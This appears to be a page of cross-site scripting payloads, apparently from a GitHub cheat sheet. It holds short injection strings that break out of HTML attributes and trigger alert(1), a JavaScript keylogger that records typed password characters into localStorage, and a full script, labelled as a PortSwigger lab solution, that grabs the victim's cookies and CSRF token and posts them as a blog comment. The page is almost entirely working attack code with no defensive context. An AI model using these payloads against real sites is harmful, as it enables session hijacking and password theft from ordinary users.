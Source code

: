 
```html
"><h1>test</h1>
```

```html
'+alert(1)+
'```

```html
"onmouseover="alert(1)
```

```
http://"onmouseover="alert(1)
```  
___
Keylogger

```javascript
t=""; $('input[type="password"]').onkeypress = function (e) { t+=e.key; console.log(t); localStorage.setItem("pw", t); } 
```
___
Fetch users' cookies and post them on a blogpost (PortSwigger)
```html
<script>
document.body.onload = function() {
    // GET COOKIES
    var cookies = document.cookie;
    // GET CSRF TOKEN FROM HTML
    var csrf = document.getElementsByName("csrf")[0].defaultValue;
    // GET DOMAIN
    var domain = document.domain;
    // STORE VALUES NEEDED TO POST THE SCRIPT
    var details = {
        'csrf': csrf,
        'postId': 2,
        'comment': cookies,
        'name': 'victim',
        'email': 'victim@victim',
        'website': 'http://hack'
    };
    // PREPARE AN EMPTY ARRAY WHICH WILL BE FILLED WITH ENCODED VALUES FROM details
    var formBody = [];
    // ENCODED IN TURN EACH KEY/VALUE PAIR FROM DICTIONARY details
    for (var property in details) {
        var encodedKey = encodeURIComponent(property);
        var encodedValue = encodeURIComponent(details[property]);
        // ADD EACH PAIR TO THE ARRAY AND "JOIN" KEYS AND VALUES IN A STRING CONCATENATION
        formBody.push(encodedKey + "=" + encodedValue);
    }
    // CONCAT ARRAY VALUES WITH & CHAR
    formBody = formBody.join("&");
    // POST THE COMMENT
    fetch("https://"+domain+"/post/comment", {
        method: "POST",
        headers: {
            'Content-Type': 'application/x-www-form-urlencoded'
        },
        body: formBody
    });
}
</script>
```
___